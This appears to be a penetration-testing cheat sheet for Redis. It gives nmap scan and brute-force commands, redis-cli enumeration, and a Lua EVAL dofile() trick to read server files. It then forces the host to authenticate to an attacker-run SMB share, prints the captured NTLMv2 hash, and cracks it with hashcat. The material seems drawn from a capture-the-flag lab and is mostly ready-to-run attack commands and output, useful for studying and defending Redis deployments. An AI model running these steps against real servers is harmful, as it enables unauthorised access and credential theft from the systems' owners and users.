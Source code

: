 Redis is an open-source, in-memory data structure store used as a database, cache, and message broker. It supports various data types, offers high performance with low latency, and provides features like persistence, replication, and pub/sub messaging, making it ideal for real-time applications and high-performance scenarios.<br>

>Default Port: 6379

nmap
-----
```
sudo nmap -p 6379 -A $IP
sudo nmap -sV -p 6379 --script=redis-info.nse $IP
sudo nmap -sV -p 6379 --script=redis-brute.nse $IP
```
enumeration
-----------
```
redis-cli -h $IP
redis-cli -h $IP --pass password1234

redis> info
redis> INFO
redis> client list
redis> CONFIG GET *
````

exploits
---------

Redis can execute Lua scripts (in a sandbox, more on that later) via the “EVAL” command. The sandbox allows the ```dofile()``` command (WHY???). It can be used to **enumerate files and directories**. No specific privilege is needed by Redis… If the Lua script is syntaxically invalid or attempts to set global variables, **the error messages will leak some content of the target file**.

**access file on server:**
```
redis-cli -h $IP
> eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
```
**obtaining the NTLMv2 Hash / User’s password**

Now that we know that we can access files on the server, we can try to do some more advanced stuff. We could try to access a remote share. This would leak the NTLM hash of the user as he/she tries to authenticate himself/herself. If this remote share is on our machine, we could attempt to log the access and thus get access to the hash.

<br>

For that, we first set up a listener using ```smbserver.py```:
```
sudo /home/kali/.local/bin/smbserver.py shared ~/test -smb2support
```

Then, we use the redis eval technique to access the exposed share:
```
redis-cli -h <target ip> eval "dofile('//<our ip>/shared')" 0 
```
We will got an error like this :
```
(error) ERR Error running script (call to f_3019311747b91dc48629be28b00631986c617817): @user_script:1: cannot open //10.8.14.69//shared: Invalid argument 
```
But the user hash we will be exposed through our smb server:
```
[*] Closing down connection (10.10.49.209,49896)
[*] Remaining connections []
[*] Incoming connection (10.10.49.209,49916)
[*] AUTHENTICATE_MESSAGE (VULNNET\enterprise-security,VULNNET-BC3TCK1)
[*] User VULNNET-BC3TCK1\enterprise-security authenticated successfully
[*] enterprise-security::VULNNET:aaaaaaaaaaaaaaaa:386b865cb1193740e045f6e47e1e36fb:010100000000000000cd31f8890bdb017eeb9e3a31aeef3700000000010010007300700057006b006a0057004c006b00030010007300700057006b006a0057004c006b00020010007700570062007200500061004500780004001000770057006200720050006100450078000700080000cd31f8890bdb01060004000200000008003000300000000000000000000000003000009d421d079a542bc0c77c58828668731b9291737d6e1c4186400fe57de2a70fae0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e0038002e00310034002e00360039000000000000000000
[*] Closing down connection (10.10.49.209,49916)
[*] Remaining connections []
```
**Crack NTLMv2 hash**

After that we need to crack this hash to dump the user password.<br>
first, we need to create tha hash file:
```
$ nano hash
$ cat hash
enterprise-security::VULNNET:aaaaaaaaaaaaaaaa:386b865cb1193740e045f6e47e1e36fb:010100000000000000cd31f8890bdb017eeb9e3a31aeef3700000000010010007300700057006b006a0057004c006b00030010007300700057006b006a0057004c006b00020010007700570062007200500061004500780004001000770057006200720050006100450078000700080000cd31f8890bdb01060004000200000008003000300000000000000000000000003000009d421d079a542bc0c77c58828668731b9291737d6e1c4186400fe57de2a70fae0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e0038002e00310034002e00360039000000000000000000
```
then :
```
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

